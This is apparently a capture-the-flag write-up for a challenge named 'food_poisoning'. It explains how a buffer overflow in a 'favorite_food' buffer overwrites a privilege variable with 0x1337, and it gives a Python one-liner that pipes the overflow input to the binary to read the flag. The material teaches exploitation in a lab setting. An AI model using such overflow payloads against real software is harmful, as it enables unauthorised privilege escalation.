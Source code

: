 # food_poisoning - Writeup

Due to the buffer overflow into the `favorite_food` buffer, we can overwrite the `privilege` variable and set it to `0x1337` to read the flag.

Python oneliner:

```python
python -c "import sys; sys.stdout.buffer.write(b'1\n1\n1\n' + b'A' * 32 + b'\x37\x13\x00\x00\n' +  b'2\n')" | ./food_poisoning
```
